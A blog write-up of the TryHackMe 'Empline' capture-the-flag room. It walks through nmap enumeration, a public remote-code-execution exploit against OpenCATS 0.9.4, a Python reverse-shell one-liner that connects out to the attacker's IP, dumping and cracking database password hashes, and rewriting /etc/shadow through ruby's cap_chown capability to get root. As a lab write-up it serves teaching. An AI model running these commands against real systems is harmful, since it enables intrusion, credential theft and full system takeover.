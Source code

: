 ```yaml
---
title: "TryHackMe - Empline"
author: Nasrallah
description: ""
date: 2023-01-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, ruby, rce, capability, openssl]
img_path: /assets/img/tryhackme/empline
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Empline](https://tryhackme.com/room/empline) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.216.146                                                                                                                            
Host is up (0.11s latency).                                                                                                                                   
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                                
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                           
| ssh-hostkey:                                                                                                                                                
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)                                                                                                
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)                                                                                               
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)                                                                                             
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                         
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 85
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, IgnoreSigpipes, SupportsCompression, ConnectWithDatabase, DontAllowDatabaseTableColumn, LongColumnFlag, Support41Auth, In
teractiveClient, Speaks41ProtocolOld, FoundRows, SupportsTransactions, ODBCClient, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, S
upportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: md1c$#$*E^*TGIv8RskA
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 3 open ports:

 - 22/tcp    ssh     OpenSSH 7.6p1
 
 - 80/tcp    http    Apache httpd 2.4.29

 - 3306/tcp  mysql   MySQL 5.5.5-10.1.48-MariaDB


We don't have any credentials for ssh and mysql so let's enumerate the http web server.

## Web

Navigate to the web page.

![](1.png)

Nothing interesting in this page, but one of the tabs `employment` goes to `job.empline.thm`. Let's add the two domains to the `/ets/hosts` file.

![](2.png)

Now let's go to http://job.empline.thm/

![](3.png)

We found a login page for `opencats` version 0.9.4 . 


# **Foothold**

I searched on google for available exploit and found this [remote code execution exploit](https://github.com/Nickguitar/RevCAT).

Let's download the exploit and run it.

![](4.png)

Great! We got command execution, now let's get a reverse shell.

First we setup a netcat listener with `nc -lvnp 9001`, then we execute the following command on the target:

```bash
export RHOST="10.11.14.124";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](5.png)

# **Privilege Escalation**

Checking `opencats` config file i managed to find mysql credentials.

![](6.png)

Let's connect to the database server and see if we can find anything useful.

```bash
www-data@empline:/home$ mysql -u james -p                                                                                                                     
Enter password:                                                                
Welcome to the MariaDB monitor.  Commands end with ; or \g.                    
Your MariaDB connection id is 542                                              
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04                  
                                                                                                                                                              
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                                                          
                                                                               
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
                                                                               
MariaDB [(none)]> show databases;                                              
+--------------------+                                                         
| Database           |                                                         
+--------------------+                                                                                                                                        
| information_schema |                                                         
| opencats           |                                                         
+--------------------+                                                         
2 rows in set (0.00 sec)                                                       
                                                                               
MariaDB [(none)]> use opencats;      
Reading table information for completion of table and column names                                                                                            
You can turn off this feature to get a quicker startup with -A                                                                                                
                                                                                                                                                              
Database changed                                                                                                                                              
MariaDB [opencats]> show tables;                                                                                                                              
+--------------------------------------+                                                                                                                      
| Tables_in_opencats                   |                                                                                                                      
+--------------------------------------+
| user                                 |

MariaDB [opencats]> show columns from user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |

MariaDB [opencats]> select user_id,user_name,password from user;
+---------+----------------+----------------------------------+
| user_id | user_name      | password                         |
+---------+----------------+----------------------------------+
|       1 | admin          | b67b5ecc5d8902ba59c65596e4c053ec |
|    1250 | cats@rootadmin | cantlogin                        |
|    1251 | george         | 86d0dfda99dbebc424eb4407947356ac |
|    1252 | james          | e53fbdb31890ff3bc129db0e27c473c9 |
+---------+----------------+----------------------------------+
4 rows in set (0.00 sec)

```

We found george password hash that looks like an md5 hash, so we can crack it using [crackstation.net](https://crackstation.net/)

![](7.png)

We got the password, now let's ssh into the machine.

![](8.png)

Next i upload a copy of linpeas and run which gave me the following results:

![](9.png)

We found that `ruby` hash the capability `cap_chown+ep`, which means we can change the ownership of any file.

To get root, we're gonna change the ownership of `/etc/shadow` to george, then change the root's password hash with a new hash that we're gonna create.

```bash
george@empline:~$ ls -l /etc/shadow                                                                                                                           
-rw-r----- 1 root shadow 1081 Jul 20  2021 /etc/shadow
george@empline:~$ /usr/local/bin/ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/shadow')"                                          
george@empline:~$ ls -l /etc/shadow                                                                                                                           
-rw-r----- 1 george george 1081 Jul 20  2021 /etc/shadow
george@empline:~$ openssl passwd -6 -salt abc password                                                                                                        
$6$abc$rvqzMBuMVukmply9mZJpW0wJMdDfgUKLDrSNxf9l66h/ytQiKNAdqHSj5YPJpxWJpVjRXibQXRddCl9xYHQnd0
george@empline:~$ vim /etc/shadow                                                                                                                             
george@empline:~$                                                                                                                                             
george@empline:~$ cat /etc/shadow                                                                                                                             
root:$6$abc$rvqzMBuMVukmply9mZJpW0wJMdDfgUKLDrSNxf9l66h/ytQiKNAdqHSj5YPJpxWJpVjRXibQXRddCl9xYHQnd0:18828:0:99999:7::: 
<REDACTED>
```

Now we can switch to root with the password `password`.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
